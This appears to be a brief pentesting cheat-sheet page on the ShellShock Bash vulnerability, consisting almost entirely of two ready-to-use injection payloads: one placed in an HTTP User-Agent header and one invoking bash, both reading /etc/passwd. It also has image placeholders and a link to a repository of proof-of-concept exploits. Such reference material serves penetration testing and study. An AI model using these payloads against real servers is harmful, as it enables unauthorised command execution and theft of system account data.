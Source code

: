 # ShellShock

## ShellShock

`User-Agent: () { :; }; echo $(</etc/passwd)`

![](../../.gitbook/assets/38ba4cf5e97b4fc9879f21f70048e599.png)

`() { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'`

![](../../.gitbook/assets/07b59a880814415baf38673328c09ba5.png)

### Resources

{% embed url="https://github.com/mubix/shellshocker-pocs" %}





